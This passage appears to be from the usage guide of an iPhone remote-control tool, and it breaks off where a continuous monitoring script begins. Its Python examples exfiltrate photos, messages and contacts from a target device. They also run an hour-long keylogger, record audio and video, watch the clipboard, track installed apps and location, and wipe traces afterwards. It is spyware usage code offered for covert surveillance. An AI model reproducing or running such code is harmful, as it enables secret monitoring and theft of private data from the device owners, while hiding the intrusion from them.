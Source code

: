 ```python
    await controller.exfiltrate_photos(device_id)
    await controller.exfiltrate_messages(device_id)
    
    # Start keylogger (1 hour)
    await controller.keylog(device_id, duration=3600)
    
    # Cleanup
    await controller.cleanup_traces(device_id)
    await controller.close()

asyncio.run(main())
```

### Advanced Operations

```python
# Record audio (2 minutes)
result = await controller.execute_command(
    device_id, 'record_audio', {'duration': 120}
)

# Record video (1 minute)
result = await controller.execute_command(
    device_id, 'record_video', {'duration': 60}
)

# Exfiltrate contacts
result = await controller.execute_command(
    device_id, 'exfiltrate_contacts'
)

# Monitor clipboard
result = await controller.execute_command(
    device_id, 'monitor_clipboard'
)

# Track installed apps
result = await controller.execute_command(
    device_id, 'track_apps'
)
```

---

## 🔄 Automated Operations

### Continuous Monitoring Script

```python
#!/usr/bin/env python3
"""
Continuous iPhone monitoring
Tracks location, captures screenshots, monitors clipboard
"""

import asyncio
from datetime import datetime
from pathlib import Path
from iphone_remote_access import iPhoneRemoteControl

async def monitor_device(controller, device_id):
    """Monitor device continuously"""
    
    while True:
```
